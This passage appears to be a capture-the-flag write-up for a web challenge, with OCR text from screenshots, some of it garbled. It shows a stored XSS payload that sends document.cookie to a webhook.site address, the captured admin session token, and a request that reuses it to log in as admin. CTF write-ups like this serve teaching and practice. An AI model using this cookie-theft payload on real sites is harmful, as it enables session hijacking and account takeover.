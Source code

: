 
[Image extracted text: Submit
<script>
location. replace( "https: / /webhook. Site/55af7326-b996-4cca-99c5-c7fc3c3a7f83/2"+document. cookie)
</script>
Submit]



[Image extracted text: sec-ch-ua-platform
"Linux"
sec-ch-ua-mobile
70
sec-ch-ua
"Chromium" ; V="1
host
webhook. site
content-length
content-type
Query strings
Form values
session
eyJpZCI6MSwidHlwZSI6ImFkbWluliwidXNlcmShbWUiOiJhzGlpbijg.ZYEGZ
(empty)
g.d1bDdPTTZeGho8wcXOFOtNZOHWE
Files
No content]


Wait for a while and we got the cookie! Now, we can login as an admin


[Image extracted text: Request
Response
Pretty
Raw
Hex
In
=
Pretty
Raw
Hex
Render
In
=
GET
linternal
HTTP/1.1
HTTP/1.1
302
FOUND
Host:
thecybercoopctf-grayboard. chals. io
2
Date:
Tue
19
Dec
2023
03:04:59
GMT
3
Cookie:
session=
3 Content-Type:
text/html;
